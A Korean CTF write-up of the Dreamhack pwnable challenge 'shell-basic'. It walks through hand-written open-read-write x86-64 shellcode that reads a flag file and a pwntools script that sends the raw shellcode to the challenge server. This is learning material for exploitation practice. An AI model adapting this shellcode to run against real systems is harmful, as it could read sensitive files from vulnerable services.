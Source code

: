 ```yaml
---
title: "[pwn]shell-basic"
toc:true
toc_label: "Table of Contents"
toc_sticky: true
toc_icon: "bars"
---
```

# shell-basic
처음 풀어보는 포너블 문제라 감도 안왔지만 튜토리얼로 어느정도는 따라갈 수 있었다. 
## assembly
~~~
__asm__(
	".global main\n"
        "main:\n"

	"xor rax,rax\n"
	"push rax\n"
        "mov rax,0x676E6F6F6F6F6F6F\n"
	"push rax\n"
        "mov rax,0x6C5F73695F656D61\n"
        "push rax\n"
	"mov rax,0x6E5F67616C662F63\n"
        "push rax\n"
	"mov rax,0x697361625F6C6C65\n"
        "push rax\n"
	"mov rax,0x68732F656D6F682F\n"
        "push rax\n"
	"mov rdi,rsp\n"
        "xor rsi,rsi\n"
        "xor rdx,rdx\n"
	"xor rax,rax\n"
	"add rax,0x2\n"
        "syscall\n"
	"\n"
        "mov rdi,rax\n"
	"mov rsi,rsp\n"
	"sub rsi,0x30\n"
        "xor rax,rax\n"
	"xor rdx,rdx\n"
	"add rdx,0x30\n"
        "syscall\n"
	"\n"
	"xor rdi,rdi\n"
	"add rdi,0x1\n"
	"xor rax,rax\n"
	"add rax,0x1\n"
        "syscall");
~~~
1. 환경 조사
	*file shell_basic* 을 통해 환경을 먼저 조사한다. amd64 환경인 것을 알 수 있다.   
2. 파일경로 push
	먼저 12번부터 16번까지는 stack에 file location을 string의 형태로 넣었다. 우연인지 파일 경로가 8byte에 맞아 떨어지므로 \0을 마지막에 넣어주기 위해 0을 먼저 push해주었다.   
	이때 shell code에는 \x00이 포함되면 안되므로 mov rax,0x0보다는 xor rax,rax를 해주는 것이 맞다.  
3. system call
	그 이후에는 SYS_OPEN의 변수에 맞게 넣어주면 된다. SYS_OPEN(const char \*filename,int flags,umode_t mode)에 flags=0, mode=null 을 넣어준 것이다.   
	나머지 SYS_READ(unsigned int fd,char \*buf,size_t count), SYS_WRITE(unsigned int fd,char \*buf,size_t count) 함수의 parameter에 맞게 넣어주면 된다.  
4. gcc
	*gcc -o orw orw.c -masm=intel* 명령어를 통해 컴파일한다.  
5. objdump
	*objdump -d ./orw* 명령어로 opcode를 추출한다.   
	<img width="605" alt="opcode" src="https://user-images.githubusercontent.com/45323902/154000690-ae589c0c-4fb5-46fa-823f-0cd0e2fd155d.png">  
	여기서 마지막 syscall까지만 추출하면 된다.  
6. script
	~~~
	from pwn import *

	p=remote('host1.dreamhack.games',22700)

	p.recvuntil(b'shellcode:')
	exploit=b'\x48\x31\xc0\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x48\x83\xc0\x02\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\x31\xc0\x48\x31\xd2\x48\x83\xc2\x30\x0f\x05\x48\x31\xff\x48\x83\xc7\x01\x48\x31\xc0\x48\x83\xc0\x01\x0f\x05'
	p.send(exploit)
	p.interactive()
	~~~
	이처럼 python script를 이용해 shellcode를 전달하면 함수 내부에서 shellcode를 메모리에 넣고 실행하게 된다.
	<img width="725" alt="script exec" src="https://user-images.githubusercontent.com/45323902/154001147-99dffd0e-0229-4787-888c-b8560b906d1e.png">
	여기서 flag이후 다른 문자열이 나오는 이유는 buf size가 0x30인데 flag가 그보다 짧아 메모리에 있는 다른 내용까지 출력하게 된 것이다.


